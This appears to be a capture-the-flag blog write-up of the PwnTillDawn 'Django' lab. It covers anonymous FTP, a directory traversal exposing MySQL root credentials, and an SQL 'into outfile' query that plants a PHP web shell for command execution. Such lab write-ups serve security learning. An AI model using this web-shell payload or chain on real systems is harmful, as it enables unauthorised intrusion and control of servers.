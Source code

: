 ```yaml
---
title: Django Writeup PwnTillDawn
author: r0b0tG4nG
date: 2021-11-28 11:33:00 +0800
categories: [Blogging, PwnTillDawn]
tags: [writeups, exploit-db, ftp, phpmyadmin, php rce]
math: true
mermaid: true
---
```


![image](https://user-images.githubusercontent.com/67085453/143782183-182fa254-95bd-4914-bcb2-278f12a3eda4.png)<br><br>

**> Information Gathering**<br>
In every engagement, one has to gather information first. As usual we run our nmap scan and from we can see that port 21 (ftp), 80 (http), 443 (ssl), 3306 (mysql) & 8089 (splunkd) are open.<br>
![image](https://user-images.githubusercontent.com/67085453/143782188-0e6f1c6a-177f-4f32-b326-2210b048a601.png)<br>

FTP service running on the target has anonymous login enabled. So we log in with `anonymous` as a username and continued to gather more information.<br>
![image](https://user-images.githubusercontent.com/67085453/143782193-998e0ce4-e8b7-40ae-bc06-de7feb8d8f60.png)<br>

During the anonymous login, FTP printed the banner `220-Wellcome to Home Ftp Server!`. This banner does not look like the usual banner on FTP services. This is interesting to look at could be a different ftp sofware installed on the target.<br>
![image](https://user-images.githubusercontent.com/67085453/143782198-aed0d1d8-a8bd-4c48-bec4-c417c6079df9.png)<br>

A quick research on google shows that some version of `Home Ftp Server!` are vulnerable and tehre are some exploits out there.<b>
![image](https://user-images.githubusercontent.com/67085453/143782209-d66f3f9a-6bae-4a39-8cea-08937c988cec.png)<br>

We found an exploit on <a href="https://www.exploit-db.com/exploits/15349">Exploit-DB</a> which states that `Home FTP Server version 1.11.1.149` has `Directory Traversal` vulnerability. <br>
![image](https://user-images.githubusercontent.com/67085453/143782221-7dce38e4-2619-464a-9050-a6f13b469a0c.png)<br>

To exploit this vulnerability, all we need to do is to apply `/..` to the path and we can retrieve files or navigate directories. <br>
(../image)<br>

Typing `cd /..` takes us to the root path as seen in teh screenshot above. Indeed this version is vulnerable to `Directory Traversal`. After a couple of minutes, i found a `passwords.txt` file in the `/../xampp` directory and quickly grabbed this file to my machine. <br>
(passwords.txt )<br>

Reading the contents of `passwords.txt` revealed credentials to `MySQL (phpMyAdmin)`. The credentials found was `root:thebarrierbetween`.<br>
(credentials)<br>

From nmap we know that this target has a webserver running on port 80. Browsing to port 80 we can see the default page of xampp webapp. This is no suprpise since we saw xampp from FTP session<br>
(web page)<br>

On the upper-right corner on the dashboard we can see `phpMyAdmin`. Clicking on it leads us to `phpMyAdmin` login page. <br>
(phpmmyadmin)<br>

We have the credentials already. I input the credentials `root:thebarrierbetween` on the login page.<br>
(login pphp)<br>

A successful login should lead you to the admin dashboard. Remember you logged in as `root` user so we have full control over the database. There is a 90% chance that we can use `SQL Query` to create  a `php backdoor`.<br>
(dashboard)<br>  

Click on `SQL`, and type the following query `SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"` from ftp, we can confirm the path of `xampp` on the target. Click on `go` to create our backdoor.<br>
(sql creatte query)<br>

Log into `FTP` again, navigate to the `/../xampp/htdocs` directory to check if your file `backdoor.php` exists. If it exists, then we are 2 steps away from gaining `code execution` on the target.<br>
(ftp file)<br>

Navigate to http://10.150.150.212/backdoor.php?cmd=whoami and we have `code execution` on the target. You can replace `whoami` in the url with any windows commands. Good luck getting shell.<br>
(image rce)<br> 


Referrence: <a href="https://online.pwntilldawn.com/">PwnTillDawn Online battlefield</a>
